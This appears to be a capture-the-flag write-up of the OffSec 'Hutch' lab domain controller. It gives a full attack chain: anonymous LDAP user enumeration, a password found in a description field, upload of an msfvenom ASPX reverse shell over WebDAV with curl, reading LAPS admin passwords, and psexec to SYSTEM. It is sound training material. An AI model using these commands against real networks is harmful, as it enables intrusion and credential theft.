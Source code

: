 ```yaml
---
description: PG Practice Hutch writeup
---
```


# Hutch

## Nmap

```
sudo nmap 192.168.89.122 -p- -sV -sS    

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos 
(server time: 2021-03-01 21:29:49Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP 
(Domain: hutch.offsec0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP 
(Domain: hutch.offsec0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
49666/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49670/tcp open  msrpc         Microsoft Windows RPC
49672/tcp open  msrpc         Microsoft Windows RPC
49688/tcp open  msrpc         Microsoft Windows RPC
49767/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: HUTCHDC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

Starting off looking at LDAP running some LDAP related `nmap` scripts to enumerate.

```
nmap -n -sV --script "ldap* and not brute" 192.168.89.122  
```

![](<../../../.gitbook/assets/image (842).png>)

Looking through the results we do not have much interesting information but we do have the naming connect off hutch.offsec for the DC.

Having this information we can run LDAP search with the naming context included to enumerate users and `grep` by SAM account name.

```
ldapsearch -x -h 192.168.89.122 -D '' -w '' -b "DC=hutch,DC=offsec" |
 grep sAMAccountName:
```

![](<../../../.gitbook/assets/image (843) (1).png>)

We now have the following users list:

```
rplacidi
opatry
ltaunton
acostello
jsparwell
oknee
jmckendry
avictoria
jfrarey
eaburrow
cluddy
agitthouse
fmcsorley
```

Running the same LDAP command as above except this time grepping for the description we see the following:

```
ldapsearch -x -h 192.168.89.122 -D '' -w '' -b "DC=hutch,DC=offsec" |
grep description
```

![](<../../../.gitbook/assets/image (844).png>)

We have a password in the last line which we can correlate with being the last users in the entry list of fmcsorley for the combined credentials of `fmcsorley:CrabSharkJellyfish192`

Checking the credentials with `crackmpaexec` against SMB shows we have valid information.

```
crackmapexec smb 192.168.89.122 -u fmcsorley -p CrabSharkJellyfish192
```

![](<../../../.gitbook/assets/image (845).png>)

With valid SMB credentials I was unable to enumerate any further interesting information. From the Nikto results earlier we do have Webdav enabled.

![](<../../../.gitbook/assets/image (846) (1).png>)

Without a specific directory enabled we can attempt to upload with curl on the root page. I first created a `msfvenom` ASPX reverse shell then attempted to upload with `curl` ensuring the valid credentials we have are used.

```
curl -T '/home/kali/shell.aspx' 'http://192.168.64.122/' -u fmcsorley:CrabSharkJellyfish192
```

I set the shell to talk back on port 445 and set a `netcat` listener on the same port. After browsing to 192.168.64.122/shell.aspx I received a shell back on my listener.

![](<../../../.gitbook/assets/image (847).png>)

After going through the system we do see that LAPS has been installed on the server.

![](<../../../.gitbook/assets/image (848).png>)

Its possible that LAPS or LDAP has been misconfigured enough to potentially contains the computer passwords for computer object in AD. Knowing this we can go back and search LDAP with the credentials with have specifically looking for the _ms-Mcs-AdmPwd attribute._

```
ldapsearch -x -h 192.168.64.122 -D 'hutch\fmcsorley' -w 'CrabSharkJellyfish192' -b 'dc=hutch,dc=offsec' "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd 
```

![](<../../../.gitbook/assets/image (849).png>)

We can see for the domain controller the LAPS password set is `J6QOuU+lhs[SH/` I then confirmed the credentials with `crackmapexec` against LDAP using the local administrator account and was given successful confirmation.

![](<../../../.gitbook/assets/image (850).png>)

I was then able to use these credentials with Impacket's psexec.py to gain access to the Domain Controller as SYSTEM.

![](<../../../.gitbook/assets/image (851).png>)
